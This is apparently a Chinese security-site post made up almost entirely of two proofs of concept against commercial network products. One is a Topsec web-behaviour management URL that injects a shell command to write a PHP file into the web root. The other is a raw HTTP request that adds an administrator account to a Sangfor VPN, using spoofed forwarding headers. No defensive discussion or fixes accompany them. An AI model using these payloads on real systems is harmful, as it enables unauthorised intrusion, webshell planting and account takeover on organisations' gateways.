 https://www.iculture.cc/cybersecurity/pig=20793



## 天融信上网行为管理系统 一句话木马



```
/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20
echo%20%27%3C?php%20phpinfo();?%3E%27%20%3E%3E%20/var/www/html/1.php%0a
```



## 深信服VPN任意用户添加漏洞

**漏洞等级** 严重

### 0x02 poc

```
POST /cgi-bin/php-cgi/html/delegatemodule/HttpHandler.php?controler=User&action=AddUser&token=e52021a4c9c962ac9cc647effddcf57242d152d9 HTTP/1.1
Host: xxxxxx
Cookie: language=zh_CN; sinfor_session_id=W730120C88755A7D932019B349CCAC63; PHPSESSID=cb12753556d734509d4092baabfb55dd; x-anti-csrf-gcs=A7DBB1DC0050737E; usermrgstate=%7B%22params%22%3A%7B%22grpid%22%3A%22-1%22%2C%22recflag%22%3A0%2C%22filter%22%3A0%7D%2C%22pageparams%22%3A%7B%22start%22%3A0%2C%22limit%22%3A25%7D%2C%22otherparams%22%3A%7B%22searchtype%22%3A0%2C%22recflag%22%3Afalse%7D%7D; hidecfg=%7B%22name%22%3Afalse%2C%22flag%22%3Afalse%2C%22note%22%3Afalse%2C%22expire%22%3Atrue%2C%22lastlogin_time%22%3Atrue%2C%22phone%22%3Atrue%2C%22allocateip%22%3Atrue%2C%22other%22%3Afalse%2C%22state%22%3Afalse%7D
Content-Length: 707
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: */*
Origin: https://xxxxxx
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://xxxxxx/html/tpl/userMgt.html?userid=0&groupid=-1&createRole=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


name=admin1&note=admin1&passwd=Admin%40123&passwd2=Admin%40123&phone=&grpid=-1&grptext=%2F%E9%BB%98%E8%AE%A4%E7%94%A8%E6%88%B7%E7%BB%84&selectAll=1&b_inherit_auth=1&b_inherit_grpolicy=1&is_Autoip=1&allocateip=0.0.0.0&gqsj=1&ex_time=2027-07-29&is_enable=1&is_public=1&is_pwd=1&first_psw_type=-1&second_server=&auth_type=0&ext_auth_id=&token_svr_id=%E8%AF%B7%E9%80%89%E6%8B%A9&grpolicy_id=0&grpolicytext=%E9%BB%98%E8%AE%A4%E7%AD%96%E7%95%A5%E7%BB%84&roleid=&roletext=&year=&month=&day=&isBindKey=&userid=0&crypto_key=&szcername=&caid=-1&certOpt=0&create_time=&sec_key=&first_psw_name=%E6%9C%AC%E5%9C%B0%E6%95%B0%E6%8D%AE%E5%BA%93&first_psw_id=&second_psw_name=&second_psw_id=&is_extauth=0&secondAuthArr=%5B%5D
```
